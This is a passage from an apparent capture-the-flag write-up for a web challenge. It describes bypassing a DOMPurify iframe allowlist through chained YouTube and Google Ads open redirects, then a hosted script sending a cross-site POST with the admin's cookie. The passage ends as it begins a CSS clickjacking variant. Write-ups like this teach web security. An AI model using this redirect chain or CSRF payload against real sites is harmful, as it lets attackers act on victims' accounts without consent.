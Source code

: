 ```javascript
const dirtyHTML = f.content;
const cleanHTML = DOMPurify.sanitize(dirtyHTML, {
  ADD_TAGS: ["iframe"],
  ADD_ATTR: ["allow", "allowfullscreen", "frameborder", "scrolling", "src", "width", "height"]
});

...

DOMPurify.addHook("uponSanitizeElement", (node, data) => {
  if (data.tagName === "iframe" && node instanceof Element) {
    const src = node.getAttribute("src") || "";
    if (!src.startsWith("https://www.youtube.com/embed/")) {
      node.parentNode.removeChild(node);
    }
  }
});
```

We are allowed to embed content in iframes, but only from **YouTube**. So we need an **open redirect**. The first one is in **YouTube** itself, but it is restricted as it only allows you to redirect to **Google** domains via: `https://www.youtube.com/embed/../logout?continue=https://google.com`. The second **open redirect** is in the **Googleads** product and thus allows us to chain these **open redirects** like the following:

```html
<iframe src="https://www.youtube.com/embed/../logout?continue=https://googleads.g.doubleclick.net/pcs/click?adurl=<your-own-website>"></iframe>
```

Now we can host the following HTML with an appropriate post ID on our website, which leads to CSRF:

```html
<script>
fetch('https://a-minecraft-movie-api.challs.umdctf.io/legacy-social', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded',
  },
  body: 'sessionNumber=1&postId=<post-id>&likes=1',
  credentials: 'include'
});
</script>
```

The iframe will be victim to the **open redirects**. The reason for this is the cookie attribute `sameSite=none`, you can read further in [this article](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions#none) describing this attribute in depth. This means the browser will always send the cookie to the challenge website in all requests, no matter by whom they were issued. So when the iframe is redirected to our malicious website, the POST request will be submitted together with the admin cookie. The cool thing about this exploit is that we don't even need the click of the admin.

## 4.4. Exploitation Variant 4 - CSS shenanigans<a id="exploitation variant 4"></a>
This one is a bit more special, but I like the idea. It is a clickjacking-like approach to solve this challenge. The main idea is to add another button with the id `dislike-button`, just like in the [submit-form-approach](#exploitation%20variant%202). But this time we will move our button behind the like button with CSS. The admin bot will just search for this button via the id attribute and then click on the element. You might think at first that, puppeteer will click the element even when it is overlapped by another element. But reading the documentation about puppeteer [click handler](https://pptr.dev/api/puppeteer.elementhandle.click), we will get the information that it simulates a real mouse click. So it will focus on the element given by a selector, but will still click the topmost element. So we just add a post with the following content:
